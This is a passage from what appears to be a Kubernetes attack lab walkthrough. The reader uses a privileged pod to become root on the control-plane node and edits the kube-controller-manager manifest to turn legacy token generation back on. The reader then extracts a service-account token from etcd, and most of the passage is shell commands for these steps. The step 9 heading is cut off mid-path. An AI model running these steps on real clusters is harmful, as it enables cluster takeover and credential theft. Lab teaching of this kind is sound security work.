    ```shell
   nonroot-priv                1/1     Running   0          4m36s   10.244.82.7      kind-control-plane   <none>           <none>
   webadmin-79d5c46849-tm5ht   1/1     Running   0          48m     10.244.162.133   kind-worker          <none>           <none>
   ```

9. With our pod running on the `kind-control-plane` node, exec into it, become root and edit the `/chroot/etc/
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.

   snyky@nonroot-priv:/$ sudo su -
   root@nonroot-priv:~# vim /chroot/etc/kubernetes/manifests/kube-controller-manager.yaml
   ```
   In that file, in the `spec.containers.command` list, add `- --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false` and make sure it's indented correctly.
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   creationTimestamp: null
   labels:
      component: kube-controller-manager
      tier: control-plane
   name: kube-controller-manager
   namespace: kube-system
   spec:
   containers:
   - command:
      - kube-controller-manager
      - --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false
      - --allocate-node-cidrs=true
      - --authentication-kubeconfig=/etc/kubernetes/controller-manager.conf
   ...
   ```
   Save the file, exit the `nonroot-priv` pod exec and re-run the `etcdctl get` command from step 7. You may not see a difference for a minute or so, but eventually a long list of secrets should appear, incliuding our target: `/registry/secrets/kube-system/clusterrole-aggregation-controller-token-...`

10. Now let's get the contents of the secret name containing `clusterrole-aggregation-controller-token`.
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5`
   _(replace the last part of that string as it appears for your output)_

   A lot of data is going to come back from that query but the last very long line which starts with `token�` is what we
   want. Copy everything after that field name (don't grab the unprintable character on the end of `token�`) all of the
   way through, **but not including** the `#kubernetes.io/service-account-token` part the end.
   
